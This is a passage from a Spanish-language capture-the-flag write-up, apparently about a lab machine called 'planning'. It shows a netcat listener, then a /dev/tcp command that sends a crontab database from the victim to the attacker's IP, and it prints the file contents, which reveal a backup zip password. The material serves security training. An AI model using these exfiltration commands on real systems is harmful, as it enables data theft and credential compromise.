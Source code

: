 Primeramente necesitaremos tener un puerto a la escucha, en mi caso seleccionaré el puerto `8000`, y redirigimos la salida a un archivo `crontab.db`

~~~ bash
nc -lvnp 8000 > crontab.db
listening on [any] 8000 ...
~~~

Ahora con el siguiente comando leeremos el contenido del archivo y lo enviaremos a nuestra IP por el puerto `8000`

~~~ bash
enzo@planning:~$ cat /opt/crontabs/crontab.db > /dev/tcp/10.10.14.169/8000
~~~ 

### (Tip) Verifying File Integrity with `md5sum`

Para validar la integridad del archivo en la transferencia, podemos computar el hash MD5 resultante de este archivo en ambas máquinas. Si el hash cambia, sabremos que el archivo está corrupto

~~~ bash
# Máquina víctima (original)
enzo@planning:~$ md5sum /opt/crontabs/crontab.db
b5d0a1472c202284c52e62f51d764bd5  /opt/crontabs/crontab.db

# Máquina atacante (copia)
md5sum crontab.db    
b5d0a1472c202284c52e62f51d764bd5  crontab.db
~~~


## Credentials Leakage

Si vemos el contenido del archivo `crontab.db` con la ayuda de `jq`, podemos ver lo siguiente

~~~ bash
cat crontab.db | jq
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
~~~
